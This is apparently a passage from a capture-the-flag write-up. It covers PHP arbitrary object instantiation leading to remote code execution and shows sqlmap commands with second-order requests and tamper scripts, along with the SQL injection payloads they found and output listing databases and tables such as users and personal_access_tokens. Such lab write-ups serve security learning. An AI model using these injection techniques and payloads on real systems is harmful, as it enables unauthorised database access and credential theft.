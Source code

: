 Exploit using sqlmap: `-r request1.txt --second-req request2.txt`

### Arbitrary Object Instantiations

> References:
>
> https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-rce-abusing-object-creation-new-usd_get-a-usd_get-b

The creation of new arbitrary objects, such as `new $_GET["a"]($_GET["a"])`, can lead to Remote Code Execution (RCE), as detailed in a [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). This document highlights various strategies for achieving RCE.

The syntax `new $a($b)` is used to instantiate an object where `**$a**` represents the class name and `**$b**` is the first argument passed to the constructor. These variables can be sourced from user inputs like GET/POST, where they may be strings or arrays, or from JSON, where they might present as other types.

Arbitrary Object Instantiation is a security vulnerability that allows an attacker to create one or more PHP objects that should not be instantiated. In the analysis of a **project's dependencies**, it was discovered that **Imagick** could be leveraged for **command execution** by instantiating new objects. This presents an opportunity for exploiting vulnerabilities.

## Foothold

### SQLi to Dump Data

sqlmap exploit:

```console
$ sqlmap -r request1.txt --second-req request2.txt --tamper=space2comment --batch
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"genres":"food,travel,nature') AND 2114=2114 AND ('TAXU'='TAXU"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"food,travel,nature') AND (SELECT 3848 FROM (SELECT(SLEEP(5)))RKwA) AND ('TswB'='TswB"}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
    Payload: {"genres":"food,travel,nature') UNION ALL SELECT NULL,NULL,CONCAT(0x7162626b71,0x4d676652436a4a744878774e7646636c567a6c547a424c516966594a73724971636a647958434358,0x716a6b7171),NULL,NULL#"}

$ sqlmap -r request1.txt --second-req request2.txt --tamper=space2comment --technique=U --batch --dbs
available databases [2]:
[*] information_schema
[*] intentions

$ sqlmap -r request1.txt --second-req request2.txt --tamper=space2comment --technique=U --batch -D intentions --tables
Database: intentions
[4 tables]
+------------------------+
| gallery_images         |
| migrations             |
| personal_access_tokens |
| users                  |
+------------------------+
```